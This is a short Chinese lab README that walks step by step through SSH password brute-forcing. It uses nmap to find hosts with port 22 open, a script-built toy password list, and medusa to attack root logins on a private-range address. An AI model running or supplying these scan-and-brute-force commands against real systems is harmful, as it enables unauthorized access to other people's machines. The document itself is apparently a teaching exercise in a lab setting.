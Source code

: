 # network-security
网络攻防实验项目操作步骤：
* 1、下载medusa和libssh
```bash
 wget http://www.libssh2.org/download/libssh2-1.2.6.tar.gz
```
* 2、安装medusa和libssh
```bash
tar -zxvf libssh2-1.2.6.tar.gz -C /usr/src/  
cd /usr/src/libssh2-1.2.6/
./configure ; make ; make install
```
```bash
apt install medusa
//查看medusa是否安装成功 medusa
```
* 3、安装nmap
```bash
apt install nmap
//查看nmap安装成功否：nmap -v
```
* 4、分析我们需要的主机IP
```bash
nmap -sV -p22 -oG ssh 192.168.147.129
```
扫描此IP整个段开了22端口的机器，并且判断服务版本，保存到ssh文件中。
* 5、查看IP
```bash
cat ssh
```
* 6、将上面信息的IP提取出来进行整理到ssh1.txt
```bash
grep 22/open ssh |awk '{print $2}' >>ssh1.txt
```
* 7、查看获取到的IP
```bash
cat ssh1.txt
```
* 8、自己手动创建一个密码字典（可以自己去网上找更加好的字典。）以脚本的方式运行
```bash
vim mkpasswd.sh
```
```bash
#!/bin/bash
#
#测试字典
#
touch passwd.txt
echo $RANDOM >>passwd.txt   --$RANDOM 产生随机数重定向到passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo 123456 >>passwd.txt    --此处是我自己的真实密码，实验环境*0*。
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
echo $RANDOM >>passwd.txt
```
* 9、赋予mkpasswd.sh执行权限并执行
```bash
chmod +x mkpasswd.sh
./mkpasswd.sh 
```
* 10、自动生成我的测试字典 passwd.txt
```bash
cat passwd.txt
```
* 11、破解密码
```bash
medusa -H ssh1.txt -u root -P passwd.txt -M ssh
````
